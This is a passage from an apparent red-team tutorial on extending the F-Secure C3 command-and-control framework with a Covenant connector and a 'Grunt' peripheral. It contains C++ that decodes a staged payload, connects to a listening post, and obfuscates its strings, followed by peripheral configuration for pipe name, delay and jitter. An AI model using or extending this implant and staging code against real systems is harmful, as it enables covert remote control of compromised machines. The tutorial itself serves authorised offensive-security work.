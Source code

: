 ```c++
				throw std::runtime_error(OBF("[Covenant] Non-200 HTTP code returned: ") + std::to_string(resp.status_code()));
		}
		else
			throw std::runtime_error(OBF("[Covenant] Non-200 HTTP code returned: ") + std::to_string(resp.status_code()));

		auto payload = cppcodec::base64_rfc4648::decode(binary);

		//Finally connect to the socket.
		auto connection = std::make_shared<Connection>(m_ListeningPostAddress, m_ListeningPostPort, std::static_pointer_cast<Covenant>(shared_from_this()), binderId);
		m_ConnectionMap.emplace(std::string{ binderId }, std::move(connection));
		return payload;
	}
	catch(std::exception&)
	{
		throw std::exception(OBF("Error generating payload"));
	}
}

```

## Adding the Grunt Peripheral

As described, when testing the code above we cheated by adding a call the `GeneratePayload` in the connector's constructor. What we actually need to do is add a Peripheral called `Grunt` to C3. In similar fashion to how the Covenant.cpp connector code was developed, we start by copying `/Src/Common/FSecure/C3/Interfaces/Peripherals/Beacon.cpp` to `Src/Common/FSecure/C3/Interfaces/Peripherals/Grunt.cpp` - the same is done for the header files. 


**Stage 1 - Getting User Input**

In order to get user input that is passed to the Covenant connector `GeneratePayload` method, we need to edit the Grunt Peripheral's `GetCapability` function:

```c++
FSecure::ByteView FSecure::C3::Interfaces::Peripherals::Grunt::GetCapability()
{
	return R"(
{
	"create":
	{
		"arguments":
		[
			{
				"type": "string",
				"name": "Pipe name",
				"min": 4,
				"randomize": true,
				"description": "Name of the pipe Beacon uses for communication."
			},
			{
				"type": "int32",
				"min": 1,
				"defaultValue" : 30,
				"name": "Delay",
				"description": "Delay"
			},
			{
				"type": "int32",
				"min": 0,
				"defaultValue" : 30,
				"name": "Jitter",
```